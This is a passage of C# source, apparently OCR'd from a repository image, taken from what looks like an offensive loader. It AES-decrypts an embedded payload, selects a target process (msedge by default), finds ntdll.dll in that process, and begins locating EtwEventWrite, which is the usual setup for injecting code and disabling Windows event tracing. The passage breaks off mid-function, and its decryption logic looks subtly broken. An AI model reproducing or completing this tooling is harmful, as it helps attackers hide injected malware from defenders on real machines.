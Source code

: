 ```

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        Console.WriteLine("Decryption in progress...");
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        private static int GetProcId(string[] args)
        {
            if (args.Length == 0)
            {
                args = new string[] { "msedge" };
            }

            if (args[0].All(char.IsDigit))
            {
                Console.WriteLine("Getting PID for target process ({0})...", args[0]);
                var pid = int.Parse(args[0]);
                var process = Process.GetProcessById(pid);
                Console.WriteLine("PID for target process: {0}", process.Id);
                return process.Id;
            }
            else
            {
                Console.WriteLine("Getting PID for target process ({0})...", args[0]);
                var name = args[0];
                var process = Process.GetProcessesByName(name).FirstOrDefault();
                Console.WriteLine("PID for target process ({0}): {1}", name, process.Id);
                return process.Id;
            }
        }

        private static IntPtr GetRemoteNtdllBaseAddress(Process targetProcess)
        {
            Console.WriteLine("Getting NTDLL base address for target process...");
            var ntdllBaseAddress = targetProcess.Modules.Cast<ProcessModule>().FirstOrDefault(m => m.ModuleName == "ntdll.dll")?.BaseAddress;

            if (ntdllBaseAddress.HasValue)
            {
                Console.WriteLine("NTDLL base address: 0x{0}", ntdllBaseAddress.Value.ToString("X"));
                return ntdllBaseAddress.Value;
            }
            else
            {
                throw new InvalidOperationException("Failed to get NTDLL base address.");
            }
        }

        private static IntPtr GetEtwEventWriteOffset()
        {
            Console.WriteLine("Getting ETW Event Write offset...");
            var localNtdllAddress = GetLibraryAddress("ntdll.dll", "EtwEventWrite");
```